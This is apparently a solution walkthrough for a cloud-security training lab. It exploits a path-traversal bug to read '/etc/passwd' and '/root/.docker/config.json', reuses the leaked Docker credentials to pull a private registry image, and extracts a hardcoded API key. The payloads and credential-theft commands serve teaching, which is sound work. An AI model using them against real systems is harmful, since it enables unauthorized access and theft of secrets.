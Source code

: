 # Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.student-uniquename.cloudsec.training`

* Login to the application using `username: bob` and `password: bobmailbox`

![](images/app-login.png)

* We can see that `README.md` discloses information regarding the private registry

![](images/information-disclosure.png)


* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`

![](images/path-traversal-exploitation.png)

* Similarly we can read other sensitive files in the system and find that the system contains `/root/.docker/config.json` with payload `qqqqq/../../root/.docker/config.json`

![](images/docker-config.png)

* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```

![](images/docker-registry-login.png)

* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```

![](images/pull-private-image.png)

* Inspecting the image using the docker run command

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```

![](images/source-code-hardcoded-key.png)

* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image